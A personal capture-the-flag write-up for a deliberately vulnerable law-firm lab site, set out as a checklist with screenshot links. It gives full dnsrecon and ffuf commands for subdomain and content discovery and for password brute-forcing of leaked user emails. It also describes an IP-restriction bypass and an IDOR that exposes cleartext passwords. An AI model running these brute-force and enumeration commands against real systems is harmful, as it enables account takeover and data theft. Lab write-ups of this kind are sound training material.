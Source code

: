 1. [x] Sudomain Discovery
	1. [x] `dnsrecon -d vulnlawyers.co.uk -D ~/wordlists/subdomains.txt -t brt`!
		- Found `data.vulnlawyers.co.uk` and `www.vulnlaywers.co.uk`
	2. [x] Searching on [crt.sh](https://crt.sh/?q=vulnlawyers.co.uk)
		- Nothing found.
	3. Accessing `data.vulnlawyers.co.uk` shows this![Screenshot](Pasted%20image%2020220527050805.png) *Found Flag 1*
2. [x] Content discovery on [data.vulnlaywers.co.uk](http://data.vulnlawyers.co.uk)
	1.  `ffuf -w ~/wordlists/content.txt -t 1 -p 0.1 -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSjRZM3A2TTNKMmR5SXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJhYmYwNzRmYWI0Yzk2YjA3OTM4ZDcxNGQ0N2VhZWIzNSJ9" -u http://data.vulnlawyers.co.uk/FUZZ -mc all -fc 404`![Screenshot](Pasted%20image%2020220527052754.png)
	2. Visited [/users/](http://vulnlawyers.co.uk/users)and found some users' data![Screenshot](Pasted%20image%2020220527053245.png) *Found Flag 3*. This means that maybe there is a mail server running? **No**
3. [x] Content discovery on [www.vulnlawyers.co.uk](http://www.vulnlaywers.co.uk)
	1. `ffuf -w ~/wordlists/content.txt -t 1 -p 0.1 -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSjRZM3A2TTNKMmR5SXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJhYmYwNzRmYWI0Yzk2YjA3OTM4ZDcxNGQ0N2VhZWIzNSJ9" -u http://www.vulnlawyers.co.uk/FUZZ -mc all -fc 404`![Screenshot](Pasted%20image%2020220528031347.png)
	2. Visited `/login` in the browser but it redirected me to `/denied` page that showed `Acess is denied from your IP address` error. ![Screenshot](Pasted%20image%2020220528031530.png)
	3. Visited `/login` but through Burp proxy, and this showed.![Screenshot](Pasted%20image%2020220528031716.png) *Found Flag 2*
	4. Visited `/laywers-only` through Burp that directed me to `/laywers-only-login` then BOOM! A login protal.![Screenshot](Pasted%20image%2020220528032147.png)
4. But from the `data.vulnlawyers.co.uk/users` api we found, we have a list of emails that we can now bruteforce their passwords. Trying with the first user `ffuf -w ~/wordlists/passwords.txt -t 1 -p 0.1 -X POST -d "email=marsha.blankenship%40vulnlawyers.co.uk&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSjRZM3A2TTNKMmR5SXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJhYmYwNzRmYWI0Yzk2YjA3OTM4ZDcxNGQ0N2VhZWIzNSJ9" -u http://www.vulnlawyers.co.uk/lawyers-only-login -mc all -fc 401`. Tried all users until I found ![Screenshot](Pasted%20image%2020220528043012.png)
5. Logged in with `jaskaran.lowe@vulnlaywers.co.uk` and `summer` as a username and a password respectively. Found this.![Screenshot](Pasted%20image%2020220528043334.png)*Found Flag 4*.
6. Surfed the website to see what it does. Found a `/lawyers-only-profile/` page that when seeing its page source, found this URL.![Screenshot](Pasted%20image%2020220528044022.png)
7. Visited `/laywers-only-profile-details/4` and found that it reveals the password of every user in cleartext and it is also an *IDOR* vuln.![Screenshot](Pasted%20image%2020220528044325.png)
8. Tried some ids and found another flag on `/laywers-only-profile-details/2` ![Screenshot](Pasted%20image%2020220528044640.png) *Found Flag 5*
9. It seems that user `shayne.cairns` is an admin because he can delete a case.![Screenshot](Pasted%20image%2020220528044841.png)
10. Last flag showed after deleting the case with this admin account.![Screenshot](Pasted%20image%2020220528045154.png)*Found Flag 6*

